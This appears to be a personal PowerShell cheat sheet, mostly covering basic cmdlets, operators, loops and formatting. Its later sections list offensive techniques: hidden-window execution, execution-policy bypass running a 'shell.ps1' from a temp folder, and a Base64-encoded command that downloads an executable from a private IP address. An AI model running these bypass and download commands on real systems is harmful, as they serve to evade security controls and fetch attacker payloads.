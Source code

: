 # Basics powershell commands

## Power basic commands

### Help

```csharp
Get-Help Get-Process
Get-Help *process

Get-Help Get-Process -full
get-help get-command -Parameter *

 Get-Command -CommandType cmdlet -Name *process*

 Get-Command -Verb stop
 Get-help Stop-ASRJob

 Get-Help Out-File -Examples

Get-Command -CommandType cmdlet -Name *Child*

 Get-hotfix KDnumber

 Get-Command -CommandType cmdlet -ParameterName Computername
```

### ls

```csharp
Get-ChildItem  -Include *.ini* -File -Recurse -ErrorAction SilentlyContinue
```

### Output formatting

```csharp
Get-Command -CommandType cmdlet -Name Format*
Get-ChildItem | Format-List
Get-Process | Out-GridView
```

#### Output command into a file, then read it

```csharp
Get-Process | Out-File C:\Users\b3v1l\test.txt
Get-Content C:\Users\b3v1l\test.txt Get-ChildItem | Format-Table * | Out-File .\test.txt
```

### ​​Operator

```csharp
"hello polo" -match "polo"    → true
 "hello polo" -replace "polo","test"
hello test


-ge (equal or greater)
-le (less)
-eq (equal)
-split “Value”
-join
-is int
-is float
```

### Type

```csharp
$var = “test”
$var.GetType()

multi lines:

@"
hello
world
"@


Type conversion:

$a = 3.2 + 3
[int]$a
→ 6
```

### Array

```csharp
$array = 1,"hi",2.2
$array[1] -> “hi”

Empty array:

$empty_Ar = @()
```

### **Conditionnal Statement**

```csharp
 if (((Get-Process).Count) -gt 10) {"ok, 10"} else {"under 10"}

 Switch statement (-Exact, -Wildcard, -regex)

Switch (2) { 1 {"test 1"} 2 {"test2"}}
Switch (211) { 1 {"test 1"} 2 {"test2"} default {"erfff"}}
switch -Wildcard ('abc') { a* {"Q"} *b* {"B"} *c {"v"} }
Switch -Regex -File filename {"REGEX"{$_}}
```

### Loop

```csharp
 PS C:\Users\b3v1l > while ($count -ge 0)
>> { "Number : $count"
>> $count--
>> }

$procs = Get-Process; foreach ($proc in $procs) { $proc.Name}
```

### forEach-Object

```csharp
Get-Process |ForEach-Object {$_.Name}
Get-Process |ForEach-Object {$_.Name, $_.Path}
```

###  **Where-Object**

```csharp
Get-ChildItem |Where-Object {$_.name -match "txt"}
```

### Hidden window

```csharp
powershell -windowstyle hidden script.ps1
```

### Bypass execution restrictions

```cpp
powershell.exe -NoE -Nop -NonI -ExecutionPolicy Bypass -C
powershell.exe -version 2 -exec bypass -C C:\Users\Raziel\AppData\Local\Temp\xyz\shell.ps1
```

### Base64 Encoding

```csharp
$cmd = "IEX(New-Object system.Net.WebClient).DownloadFile('http://10.0.0.17/file.exe', ‘C:\file.exe')"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($cmd)
$encodedCommand = [Convert]::ToBase64String($bytes)
powershell.exe -EncodedCommand $encoded
```

### Powershell Environnement

```csharp
[environment]::Is64BitOperatingsystem 
True 
PS C:\temp>[environment]::Is64BitProcess 
False
```

* Get 64bit powershell

```csharp
C:\Windows\Sysnative\WindowsPowerShell\v1.0>powershell.exe
powershell.exe
Windows PowerShell
Copyright (C) 2016 Microsoft Corporation. All rights reserved.
```

```csharp
PS C:\Windows\system32\WindowsPowerShell\v1.0> 
[environment
]::is64bitprocess True
PS C:\Windows\system32\WindowsPowerShell\v1.0>
```

### Hidden Streams

```csharp
get-content -path c:\temp\hm.txt -stream root.txt
```


